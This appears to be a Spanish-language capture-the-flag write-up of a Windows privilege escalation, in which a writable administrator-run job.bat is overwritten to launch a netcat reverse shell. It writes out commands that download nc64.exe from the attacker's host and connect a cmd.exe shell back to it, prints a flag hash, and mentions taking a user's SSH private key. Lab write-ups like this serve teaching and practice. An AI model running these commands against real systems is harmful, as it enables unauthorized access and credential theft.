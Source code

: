 En la carpeta de logs vemos este archivo llamado *job.bat*
![[Markup19.png]]

### Ejecutamos una [[powershell]] para mayor comodidad

Vemos los permisos del archivo job.bat con [[icacls]] `icacls job.bat`
![[Markup20.png]]
Viendo el contenido de el job.bat se saca la teoria de que se esta ejecutando como administrador, la verdad eso no lo entendi
Como se esta ejecutando como administrador, vamos a cambiar las instrucciones del job.bat y mandarnos una [[Reverse shell]]

Usamos [[wget]] ``wget http://10.10.16.21:8000/nc64.exe -outfile nc64.exe`` para descargar el archivo, mientras desde nuestra maquina usamos [[python3 -m http.server]]

![[Markup22.png]]


Nos ponemos en escucha con [[nc -nlvp 443]]
![[Markup24.png]]

Y ahora cambiamos la instruccion del `job.exe` para que nos mande la [[Reverse shell]]

*Dato importante:* Probe poniendo doble comillas, comilla simple, capando el -e, pero no me mando la revershell nunca, y si no me aparecia este error, hasta que puse la instruccion de esta forma
![[Markup23.png]]

```
cmd /c "echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.21 4444 > C:\Log-Management\job.bat"

El cmd/c lo que haces es ejecutar la instruccion desde una terminal normal y no una powershell, por eso el parametro de -e no da problema. Por que en powershell lo interpreta como un parametro ambiguo y desde la terminal como texto plano
```

#### Y listo ya estamos adentro de la maquina


Con [[type]] podemos catear la flag de user.txt que esta en el escritorio del user daniel y la flag de root.txt esta en el escritorio ed administrator
![[Markup17.png]]

![[Markup25.png]]
f574a3e7650cebd8c39784299cb570f8


------
# Notas

#### Si esta activo el servicio ssh, podemos buscar las credenciales en su directorio c:/users/daniel/.ssh/id_rsa
Para las id_rsa dar el permiso 400 `chmod 400 id_rsa`
